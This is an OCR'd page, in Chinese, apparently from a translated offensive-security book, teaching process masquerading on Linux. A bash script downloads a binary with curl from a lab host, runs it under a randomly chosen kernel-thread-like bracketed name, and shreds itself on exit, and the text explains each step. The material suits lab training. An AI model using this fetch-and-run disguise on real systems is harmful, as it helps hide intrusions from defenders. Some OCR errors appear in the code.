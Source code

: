 清单 12-2：列出带方括号的进程

通过使用方括号，你可以让你的进程看起来更合法，更难以被发现，因为防御者可能会认为它是一个正常的系统进程，在检查进程列表时跳过它。

要开始，请考虑清单 12-3 中的脚本。我们将一起解读它。

binary_name _rotation.sh

```
#!/bin/bash
WORK_DIR="/tmp"
❶ RANDOM_BIN_NAMES=("[cpuhp/0]" "[khungtaskd]" "[blkcg_punt_biio]"
"[ipv8_addrconf]" "[mlb]" "[kstrrp]" "[neetns]" "[rcu_gb]")
❷ RANDOMIZE=$((RANDOM % 7))
❸ BIN_FILE="${RANDOM_BIN_NAMES[${RANDOMIZE}]}"
FULL_BIN_PATH="${WORK_DIR}/${BIN_FILE}"

self_removal(){
  shred -u -- "$(basename "$0")" && rm -f -- "${FULL_BIN_PATH}"
}

❹ if command -v curl 1> /dev/null; then
❺ curl -s "http://172.16.10.1:8080/system_sleep" -o "${FULL_BIN_PATH}"
  if [[-s "${FULL_BIN_PATH}"]]; then
    chmod +x "${FULL_BIN_PATH}"
  ❻ export PATH="${WORK_DIR}:${PATH}"
  ❼ nohup "${BIN_FILE}" &> /dev/null &
  fi
fi

8 trap self_removal EXIT 
```

清单 12-3：通过旋转进程名称进行进程伪装

在❶处，我们定义了 RANDOM_BIN_NAMES 数组，其中包含被方括号括起来的任意进程名称。这些名称有微小的变化，使它们更难与常见的系统进程区分（例如 ipv8_addrconf 而不是 ipv6_addrconf）。该数组代表脚本将从中选择的可能进程名称列表。

然后，我们使用 RANDOM 环境变量和取模（%）操作符❷生成一个 0 到 7 之间的随机数。我们将选定的值作为数组索引号来选择二进制名称❸。例如，如果随机数是 2，我们将通过使用 RANDOM_BIN_NAMES[2]从数组中选择名称。

接下来，我们检查 curl 命令是否可用❹，如果不可用，脚本将不会继续执行。在❺处，我们从 Kali 下载一个名为 system_sleep 的二进制文件，并将其保存到*/tmp*。我们修改 PATH 环境变量，包含当前工作目录（由 WORK_DIR 定义，*/tmp*）作为搜索路径中的第一个目录❻，然后执行该二进制文件并将其送入后台❼。出于测试目的，该二进制文件仅执行 sleep 100。

最后，我们在❽处使用 sigspec EXIT 来调用 self_removal()函数。此函数确保在脚本退出后通过 shred -u 命令执行自删除操作。EXIT 信号确保即使脚本中发生任何错误，文件也会被删除。

在运行此脚本之前，确保从 Kali 机器将 system_sleep 进程对 172.16.10.0/24 网络开放。以下命令编译 system_sleep：

```
$ **cd ~/Black-Hat-Bash/ch12**
$ **gcc system_sleep.c -o system_sleep**
$ **ls -ld system_sleep**

-rwxrwxr-x 1 kali 15968 Dec  3 14:20 system_sleep 
```
